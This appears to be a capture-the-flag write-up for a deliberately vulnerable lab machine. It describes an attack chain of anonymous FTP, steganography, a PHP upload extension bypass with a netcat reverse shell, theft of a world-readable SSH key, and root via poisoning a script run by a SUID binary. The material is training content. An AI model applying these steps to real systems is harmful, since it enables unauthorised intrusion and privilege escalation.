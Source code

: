 # LaZzyCorp: Lazy Reset

---

*By ItsMhaa*

> Welcome to DevCorp — where mistakes are meant to be reset.
> 

In this **easy-to-medium** difficulty CTF, you step into the shoes of a security researcher investigating a **careless developer’s internal staging machine**.

What starts with anonymous FTP access slowly unravels into a multi-step chain of **steganography**, **web exploitation**, **SSH hijacking**, and a **SUID binary that resets more than just the website** 😏

---

## Box Information

```
Name: LaZzyCorp: Lazy Reset
Difficulty: Easy-Medium
Creator: ItsMhaa
OS: Ubuntu 20.04
IP: [Dynamic/Static – e.g., 192.168.1.150]
```

---

## Story

DevCorp is a startup working on a blog platform. Their junior dev, Arvind, has been testing things on a local server — but in classic lazy fashion, he’s left behind:

- Sensitive developer notes
- A hidden image in FTP
- His personal SSH key
- And worst of all… a **reset tool that runs as root** 🧨

Your goal?

**Pivot from anonymous FTP to full root** by chaining together misconfigs, forgotten files, and one poorly secured script.

---

## Summary

A misconfigured FTP server and a lazy reset tool set the stage for your exploitation path.

Expect a mix of:

- Steganography
- Upload bypasses
- Permission abuse
- A clean privilege escalation path
- Minimal guesswork, maximum fun!

---

## Step 1 – Recon Phase

- Run `nmap` → open ports: **21 (FTP), 80 (HTTP), 22 (SSH)**
- Try anonymous FTP → **Success**
- Inside `/pub/`, you find:
    
    ✅ `note.jpg`
    
    (Note:- Make sure while downloading file you use binary mode of FTP. )
    

---

## Step 2 – Steganography & Foothold

- Extract hidden data using:
    
    ```bash
    steghide extract -sf note.jpg
    ```
    
- Hidden creds discovered inside:
    
    ```
    Username: dev
    Password: ****
    
    ```
    
- Visit the site → `/login`
- Upload `shell.php` using extension bypass: `.php.upload`
- Start listener:
    
    ```bash
    nc -lvnp 4444
    
    ```
    
- Trigger uploaded shell → gain **reverse shell as www-data**

---

## Step 3 – User Escalation (SSH as Arvind)

- While in shell:
    
    ```bash
    cat /home/arvind/.ssh/id_rsa
    
    ```
    
- File is world-readable
- Copy it to your attacker box → Save as `id_rsa` → `chmod 600 id_rsa`
- SSH into:
    
    ```bash
    ssh -i id_rsa arvind@<target-ip>
    
    ```
    

---

## Step 4 – Privilege Escalation (SUID Reset)

- List SUID binaries:
    
    ```bash
    find / -perm -4000 2>/dev/null
    
    ```
    
- You find:
    
    ```bash
    /home/arvind/reset
    
    ```
    
- It runs:
    
    ```bash
    /usr/bin/reset_site.sh
    
    ```
    
- And that file is **writable by *arvind***
- Modify it:
    
    ```bash
    echo 'bash -p' > /usr/bin/reset_site.sh
    
    ```
    
- Now run:
    
    ```bash
    /home/arvind/reset
    
    ```
    
- BOOM → Root shell 

---

## Step 5 – Flags

```
/home/arvind/user.txt   →  FLAG{****}

/root/root.txt          →  FLAG{*****}

```

---

## 🧠 What You Learned

✅ Steganography + FTP

✅ Web login & PHP upload bypass

✅ Reading SSH keys from web shells

✅ SSH pivoting

✅ SUID + script poisoning for root access

---

## 💬 Final Thoughts

This box was made for:

- Beginners learning post-exploitation
- People wanting story-based lateral movement
- CTF lovers who enjoy clean logic over rabbit holes

Made with ❤️ by ItsMhaa

LinkedIn: [www.linkedin.com/in/mohammad-husain-ajani](http://www.linkedin.com/in/mohammad-husain-ajani) 

GitHub: https://github.com/mohammadajani/mohammadajani

Notion Walkthrough: [LaZzyCorp: Lazy Reset](https://www.notion.so/LaZzyCorp-Lazy-Reset-232f6840ffbe80fca6c8c92bec2b02b7?pvs=21) 

---
